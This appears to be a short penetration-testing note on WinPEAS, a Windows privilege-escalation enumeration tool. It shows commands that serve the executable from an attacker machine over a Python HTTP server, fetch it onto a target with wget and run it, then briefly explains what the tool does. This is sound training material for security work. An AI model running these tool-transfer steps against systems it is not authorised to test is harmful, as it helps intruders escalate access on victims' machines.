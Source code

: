 
## Top Commands

WinPEAS
```shell-session
#Linux Machine
Download the WinPEAS executable
python3 -m http.server PORT          ---> Host a server to transfer the file

#Windows Machine
wget http://IP/WinPEAS.exe
./winpeas.exe > outputfile.txt
```

- https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS


## What is WinPEAS

WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. You can find more information about winPEAS and download either the precompiled executable or a .bat script. WinPEAS will run commands similar to the ones listed in the previous task and print their output. The output from winPEAS can be lengthy and sometimes difficult to read. This is why it would be good practice to always redirect the output to a file.